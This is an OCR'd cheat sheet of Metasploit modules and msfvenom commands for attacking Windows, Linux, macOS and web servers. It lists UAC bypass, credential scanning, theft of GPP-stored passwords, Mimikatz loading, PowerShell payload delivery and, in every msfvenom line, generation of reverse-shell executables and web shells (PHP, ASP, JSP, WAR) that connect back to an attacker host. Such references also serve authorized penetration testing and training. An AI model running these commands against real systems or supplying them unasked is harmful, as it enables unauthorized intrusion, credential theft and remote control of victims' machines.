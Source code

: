 ````
	• use exploit/windows/local/bypassuac                    # Bypass UAC on Windows 7 + Set target + arch, x86/64
	• use auxiliary/scanner/http/dir_scanner                 # Metasploit HTTP directory scanner
	• use auxiliary/scanner/http/jboss_vulnscan              # Metasploit JBOSS vulnerability scanner
	• use auxiliary/scanner/mssql/mssql_login                # Metasploit MSSQL Credential Scanner
	• use auxiliary/scanner/mysql/mysql_version              # Metasploit MSSQL Version Scanner
	• use auxiliary/scanner/oracle/oracle_login              # Metasploit Oracle Login Module
	• use exploit/multi/script/web_delivery                  # Metasploit powershell payload delivery module
	• post/windows/manage/powershell/exec_powershell         # Metasploit upload and run powershell script through a session
	• use exploit/multi/http/jboss_maindeployer              # Metasploit JBOSS deploy
	• use exploit/windows/mssql/mssql_payload                # Metasploit MSSQL payload
	• run post/windows/gather/win_privs                      # Metasploit show privileges of current user
	• use post/windows/gather/credentials/gpp                # Metasploit grab GPP saved passwords
	• load mimikatz -> wdigest                               # Metasplit load Mimikatz
	• run post/windows/gather/local_admin_search_enum        # Idenitfy other machines that the supplied domain user has administrative access to
	• set AUTORUNSCRIPT post/windows/manage/migrate

````
Meterpreter Payloads

````
	• msfvenom –l             # List options
  ````

Binaries
````
    • msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
	• msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe
	• msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
````

Web Payloads

````
    • msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php                   # PHP
	• set payload php/meterpreter/reverse_tcp                                                    # Listener
	• cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php   # PHP
	• msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp               # ASP
	• msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp                    # JSP
	• msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war                    #  WAR

````
